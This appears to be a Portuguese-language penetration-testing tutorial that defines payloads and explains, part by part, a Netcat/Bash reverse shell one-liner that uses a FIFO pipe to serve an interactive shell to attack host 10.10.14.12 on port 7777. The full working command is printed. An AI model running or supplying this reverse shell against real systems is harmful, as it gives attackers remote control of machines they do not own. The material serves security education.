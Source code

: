 `Have you ever sent an email or text to someone?`

A carga útil de um pacote de dados na Internet é a mensagem pretendida, mas em segurança da informação, refere-se ao código ou comando que explora vulnerabilidades em sistemas ou aplicativos para executar ações maliciosas. Por exemplo, o Windows Defender pode bloquear uma carga útil do PowerShell por considerá-la maliciosa. 

Quando entregamos e executamos payloads, estamos dando instruções ao computador alvo sobre o que fazer. É importante compreender o funcionamento real do código e dos comandos ao trabalhar com payloads, em vez de romantizar o processo como algo misterioso.
 
## One-Liners examinados
#### Netcat/Bash Reverse Shell One-liner
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

s comandos acima compõem um one-liner comum emitido em um sistema Linux para servir um shell Bash em um soquete de rede utilizando um ouvinte Netcat.

Ele é frequentemente copiado e colado, mas não é frequentemente compreendido. Vamos dividir cada parte do one-liner:

#### Remover /tmp/f
```shell-session
rm -f /tmp/f; 
```
Remove o arquivo `/tmp/f` se ele existir, `-f` faz `rm` ignorar arquivos inexistentes. O ponto e vírgula ( `;`) é usado para executar o comando sequencialmente.

#### Faça um arquivo de pipe nomeado
```shell-session
mkfifo /tmp/f; 
```
Cria um [arquivo de pipe nomeado FIFO](https://man7.org/linux/man-pages/man7/fifo.7.html) no local especificado. Neste caso, /tmp/f é o arquivo de pipe nomeado FIFO, o ponto e vírgula ( `;`) é usado para executar o comando sequencialmente.

#### Redirecionamento de saída
```shell-session
cat /tmp/f | 
```
Concatena o arquivo de pipe nomeado FIFO /tmp/f, o pipe ( `|`) conecta a saída padrão de cat /tmp/f à entrada padrão do comando que vem depois do pipe ( `|`).

#### Definir opções de shell
```shell-session
/bin/bash -i 2>&1 | 
```
Especifica o interpretador de linguagem de comando usando a `-i`opção para garantir que o shell seja interativo. `2>&1`garante que o fluxo de dados de erro padrão ( `2`) `&`e o fluxo de dados de saída padrão ( `1`) sejam redirecionados para o comando após o pipe ( `|`).

#### Abra uma conexão com o Netcat
```shell-session
nc 10.10.14.12 7777 > /tmp/f  
```
Usa Netcat para enviar uma conexão para nosso host de ataque `10.10.14.12`escutando na porta `7777`. A saída será redirecionada ( `>`) para /tmp/f, servindo o shell Bash para nosso ouvinte Netcat em espera quando o comando reverse shell one-liner for executado
